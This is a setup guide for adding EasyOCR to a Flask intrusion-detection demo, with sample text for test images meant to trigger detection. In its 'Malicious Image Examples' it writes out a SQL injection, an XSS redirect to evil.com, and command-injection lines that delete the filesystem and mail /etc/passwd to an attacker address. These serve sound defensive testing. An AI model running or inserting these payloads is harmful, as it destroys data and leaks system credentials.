 # 🖼️ EasyOCR Setup - Super Easy Installation!

## ✨ **Why EasyOCR Instead of Tesseract?**
- ✅ **One command install**: Just `pip install easyocr`
- ✅ **No external dependencies**: Everything included
- ✅ **Better accuracy**: AI-powered text recognition
- ✅ **Multi-language support**: 80+ languages supported
- ✅ **Works on Windows**: No PATH configuration needed

## 📥 **Installation (Super Simple!)**

### Step 1: Install EasyOCR
```bash
pip install easyocr
```

### Step 2: Update Your Requirements (Already Done!)
Your `requirements_flask.txt` now includes:
```
easyocr==1.7.0
```

### Step 3: Restart Your Flask App
```bash
python app_flask.py
```

## 🎯 **Test Image Analysis**

### Ready-Made Test Images
Create simple images with these texts using Paint, Photoshop, or any editor:

#### 🔴 **Malicious Image Examples:**

**Image 1: SQL Injection**
```
Username: admin
Password: ' OR 1=1; DROP TABLE users; --
```
Save as: `malicious_sql.png`

**Image 2: XSS Attack**
```
<script>
alert('XSS Attack!');
window.location='http://evil.com';
</script>
```
Save as: `malicious_xss.png`

**Image 3: Command Injection**
```
File: document.txt; rm -rf /
Command: cat /etc/passwd | mail hacker@evil.com
```
Save as: `malicious_cmd.png`

#### 🟢 **Normal Image Examples:**

**Image 4: System Status**
```
System Status Report
All services: Running
CPU Usage: 15%
Memory: 8.2GB / 16GB
Last Backup: Success
```
Save as: `normal_system.png`

**Image 5: User Info**
```
Employee Information
Name: John Smith
Department: IT Support
Email: john.smith@company.com
Phone: (555) 123-4567
Status: Active
```
Save as: `normal_user.png`

**Image 6: Meeting Notes**
```
Weekly Team Meeting
Date: January 15, 2024
Attendees: 8 people
Topics Discussed:
- Project progress updates
- Q1 planning session
- Team building activities
```
Save as: `normal_meeting.png`

## 🚀 **How to Test**

### Step 1: Install EasyOCR
```bash
pip install easyocr
```

### Step 2: Create Test Images
- Open Paint (Windows) or any image editor
- Type the malicious/normal text examples above
- Save as PNG/JPG files

### Step 3: Test Your System
1. Start Flask app: `python app_flask.py`
2. Go to: `http://localhost:5000/ids`
3. Scroll to "Simple Intrusion Detection"
4. Click "Choose File" under "Image Text Analysis"
5. Upload your test images
6. Click "Analyze Image"
7. See the results!

## 📋 **Expected Results**

### ✅ **What Should Happen:**
- **Malicious Images**: 🚨 Red alerts with threat details
- **Normal Images**: ✅ Green "No intrusion detected"
- **OCR Preview**: Shows extracted text from images
- **Detailed Analysis**: Threat categories, severity, confidence scores

### 🎯 **Example Results:**
```
Image 1 (SQL Injection):
✅ OCR: Extracted 45 characters from (800, 600) image
🚨 INTRUSION DETECTED! (HIGH severity, 85% confidence)
📊 Threats: SQL injection patterns detected
🔍 Patterns found: "' or 1=1", "drop table"
```

## 💡 **Pro Tips**

### Best Image Formats:
- **PNG**: Best for text screenshots
- **JPG**: Good for photos with text
- **Clear fonts**: Arial, Times, Courier work best
- **High contrast**: Black text on white background

### Image Requirements:
- **Resolution**: 300x300 minimum
- **Text size**: 12pt or larger
- **Languages**: English works best
- **Quality**: Clear, not blurry

## 🔧 **Troubleshooting**

### If EasyOCR Installation Fails:
1. **Update pip**: `python -m pip install --upgrade pip`
2. **Try with user flag**: `pip install --user easyocr`
3. **Check Python version**: Requires Python 3.6+

### If OCR Returns Empty Text:
- Try higher resolution images
- Use clearer fonts
- Increase text size
- Ensure good contrast

### If Analysis is Slow:
- First run downloads AI models (1-2 minutes)
- Subsequent runs are much faster
- Consider smaller image sizes

## 🎉 **Success Indicators**

You'll know it's working when:
- ✅ No "OCR functionality not available" error
- ✅ Images upload successfully  
- ✅ Text extraction preview appears
- ✅ Threat analysis results show up
- ✅ Malicious patterns are detected

## 🚀 **Start Testing!**

1. **Install**: `pip install easyocr`
2. **Restart**: Your Flask app
3. **Create**: Test images with the examples above
4. **Upload**: Images in the IDS page
5. **Analyze**: See the magic happen!

**EasyOCR is much simpler than Tesseract - no external downloads or PATH setup needed!** 🎯✨
